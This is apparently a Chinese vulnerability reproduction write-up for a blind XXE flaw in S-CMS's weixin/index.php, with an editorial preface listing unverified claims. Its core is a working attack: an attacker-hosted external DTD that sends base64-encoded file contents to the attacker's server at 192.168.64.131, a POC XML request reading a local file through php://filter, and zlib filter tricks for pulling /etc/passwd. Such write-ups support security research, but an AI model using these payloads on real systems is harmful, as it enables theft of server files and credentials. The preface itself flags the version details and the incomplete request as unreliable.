



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：simplexml外部实体/DTD启用、PHP/libxml支持、目标可出网/读取文件

- **事实待核（1）**：无产品/PHP/libxml版本，标准XXE仅凭simplexml无过滤不够，解析flags缺失。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：XML只有DOCTYPE无文档根元素，完整请求未给；是否解析此片段须核对。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：entity reference loop直接归因为2KB硬限制无版本证据，压缩解决未成功应保留失败。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（4）**：Windows文件路径与Linux压缩示例混用需标平台。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# S-CMS xxe漏洞

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

然后在Apache日志中查看到结果：

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
